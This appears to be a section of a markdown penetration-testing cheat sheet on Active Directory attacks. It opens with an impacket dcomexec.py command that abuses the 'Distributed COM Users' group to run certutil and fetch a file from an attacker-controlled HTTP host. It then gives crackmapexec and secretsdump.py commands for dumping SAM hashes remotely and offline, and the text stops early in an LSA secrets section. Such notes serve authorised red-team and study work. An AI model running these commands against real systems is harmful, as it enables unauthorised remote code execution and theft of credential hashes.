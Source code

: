 ### DistributedCOMUsers

**Use case** (credit: [https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html](https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html)):
- non-admin user member of "Distributed COM Users" group

When analyzing a *BloodHound* graph, one may see from time to time an edge where a user or group can compromise a host via ***ExecuteDCOM***. The conditions under which a non-administrator user can execute remote commands are as follows:
- user member of "Distributed COM Users" group
- `Remote Launch` and `Remote Activation` privileges are required (is not the case out-of-the-box for the `MMC20.Application` object)

Blind command execution - *dcomexec.py* Python script from *impacket* suite:
- `python3 dcomexec.py -object MMC20 -silentcommand <DOMAIN>/<USERNAME>:<PASSWORD>@<IPTARGET> 'certutil -urlcache -f http://<IPATTACKERHTTP>/dcomTest'`

# DumpSecrets

There are a lot of *secrets* that can be dumped simply with *crackmapexec*. You can view all with `crackmapexec smb -L`.

## SAM

**Requirements**:
- password or NT hash of a *local admin* at the target

**SAM file contains NT and LM hashes of local accounts**.

*Remote Dumping*:

```shell
# local admin credentials
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN USERNAME HASH NT> --local-auth --sam
# case where domain user is a local admin
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN USERNAME HASH NT> --sam
```

```shell
python3 secretsdump.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET>
```

*Offline Dumping*:

```shell
python3 secretsdump.py -security '/path/to/security.save' -sam '/path/to/sam.save' LOCAL
```

## LSAsecrets

**Requirements**:
- password or NT hash of a *local admin* at the target
- SECURITY and SYSTEM hives
